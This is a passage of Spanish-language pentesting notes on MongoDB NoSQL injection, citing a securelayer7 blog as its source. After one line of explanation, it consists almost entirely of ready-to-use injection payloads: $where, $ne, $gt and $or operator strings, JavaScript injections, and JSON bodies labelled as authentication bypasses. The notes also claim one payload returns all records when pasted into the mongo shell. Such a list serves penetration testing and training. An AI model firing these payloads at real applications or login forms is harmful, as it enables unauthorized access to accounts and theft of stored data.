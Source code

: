 si pegamos eso en mongo shell, devuelve todos los registros:

![foto](./img_mongo/Pasted%20image%2020220920133419.png)

Hay otros payloads que puede probar tambien:

```bash
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1 #auth bypass
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';return 'a'=='a' && ''==' #auth bypass
";return(true);var xyz='a
0;return true
' || ''==' #auth bypass
```

### AUTHENTICATION BYPASS

```bash
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

## FUENTE

- [https://blog.securelayer7.net/mongodb-security-injection-attacks-with-php/](https://blog.securelayer7.net/mongodb-security-injection-attacks-with-php/)

